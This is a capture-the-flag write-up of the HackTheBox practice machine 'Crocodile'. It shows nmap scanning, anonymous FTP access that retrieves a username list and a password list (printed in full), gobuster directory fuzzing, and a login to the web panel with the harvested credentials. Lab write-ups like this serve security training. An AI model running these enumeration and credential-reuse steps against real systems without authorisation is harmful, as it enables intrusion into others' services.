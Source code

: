 ```yaml
---
title: "HackTheBox - Crocodile"
date: 2023-12-27 09:57:00 +0700
categories: [HackTheBox, Starting Point]
tags: [very easy, web, ftp]
image:
    path: /assets/img/htb/Crocodile.png
    alt: Crocodile - HackTheBox
---
```


[**Crocodile**](https://app.hackthebox.com/starting-point) is one of the Starting Points from [**HackTheBox**](https://app.hackthebox.com/).

## Introduction

- Connect **Crocodile** using **Pwnbox** or **OpenVPN**.
- Spawn machine.

## Enumeration

To check the target connection and port, we can use **Ping** and **Nmap**.

### Ping

After spawn machine, we can start with `ping` Target IP.

```bash
❯ ping 10.129.23.227

PING 10.129.23.227 (10.129.23.227) 56(84) bytes of data.
64 bytes from 10.129.23.227: icmp_seq=1 ttl=63 time=222 ms
64 bytes from 10.129.23.227: icmp_seq=2 ttl=63 time=241 ms
64 bytes from 10.129.23.227: icmp_seq=3 ttl=63 time=571 ms
64 bytes from 10.129.23.227: icmp_seq=4 ttl=63 time=260 ms

--- 10.129.23.227 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3004ms
rtt min/avg/max/mdev = 222.356/323.275/570.700/143.454 ms
```

### Nmap

Scan ports using `nmap`, `-sV` to display port version info, `-T4` to speed up scanning (the higher the faster [0-5]).

```bash
❯ nmap -sCV -T4 10.129.23.227

Starting Nmap 7.94 ( https://nmap.org ) at 2023-12-27 09:35 WIB
Nmap scan report for JSN.JaringanKU (10.129.23.227)
Host is up (0.24s latency).
Not shown: 995 closed tcp ports (conn-refused)
PORT     STATE    SERVICE      VERSION
21/tcp   open     ftp          vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.15.128
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
|_-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
80/tcp   open     http         Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Smash - Bootstrap Business Template
1077/tcp filtered imgames
1688/tcp filtered nsjtp-data
1971/tcp filtered netop-school
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.07 seconds
```

You can see, there are 5 ports and only 2 are open, 21/tcp which is the ftp service and 80/tcp which is the http service.

If analyzed more deeply, in the ftp section `anonymous` login is allowed, and there are 2 files, let's take them.

### FTP

```bash
❯ ftp 10.129.23.227

Connected to 10.129.23.227.
220 (vsFTPd 3.0.3)
Name (10.129.23.227:huda): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
226 Directory send OK.

ftp> get allowed.userlist
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for allowed.userlist (33 bytes).
226 Transfer complete.
33 bytes received in 0,000122 seconds (264 kbytes/s)

ftp> get allowed.userlist.passwd
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for allowed.userlist.passwd (62 bytes).
226 Transfer complete.
62 bytes received in 0,000132 seconds (459 kbytes/s)
```

After that read the file.

```
aron
pwnmeow
egotisticalsw
admin
```
{: file='allowed.userlist'}

```
root
Supersecretpassword1
@BaASD&9032123sADS
rKXM59ESxesUFHAd
```
{: file='allowed.userlist.passwd'}

OK, let's try logging in to FTP using one of these users.

```bash
❯ ftp 10.129.23.227

Connected to 10.129.23.227.
220 (vsFTPd 3.0.3)
Name (10.129.23.227:huda): admin
530 This FTP server is anonymous only.
ftp: Login failed.
ftp> 
```

And the result cannot be that only `anonymous` users can log in, it is possible that the user is for the http service. Let's go to the website.

## Foothold

After entering the web, we are presented with the main web display, and after investigating there are no tabs leading to the login page, therefore we will fuzz the web using `gobuster`

![Desktop View](/assets/img/htb/include/Crocodile-1.png){: .w-75}

### Gobuster

`dir` is used to scan directories, `-u` is used to scan the destination URL, `-w` is used as a wordlist/words that may be in the destination URL, and `-x` is used to scan extensions

```bash
❯ gobuster dir -u http://10.129.23.227/ -w /usr/share/dirbuster/directory-list-2.3-small.txt -x php,html
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.23.227/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 278]
/.html                (Status: 403) [Size: 278]
/index.html           (Status: 200) [Size: 58565]
/login.php            (Status: 200) [Size: 1577]
/assets               (Status: 301) [Size: 315] [--> http://10.129.23.227/assets/]
/css                  (Status: 301) [Size: 312] [--> http://10.129.23.227/css/]
/js                   (Status: 301) [Size: 311] [--> http://10.129.23.227/js/]
/logout.php           (Status: 302) [Size: 0] [--> login.php]
/config.php           (Status: 200) [Size: 0]
Progress: 7600 / 262995 (2.89%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 7606 / 262995 (2.89%)
===============================================================
Finished
===============================================================
```

We can see, there is login.php. Come on, go back to the website. Login with the username and password provided in the file earlier.

![Desktop View](/assets/img/htb/include/Crocodile-2.png){: .w-75}
![Desktop View](/assets/img/htb/include/Crocodile-3.png){: .w-75}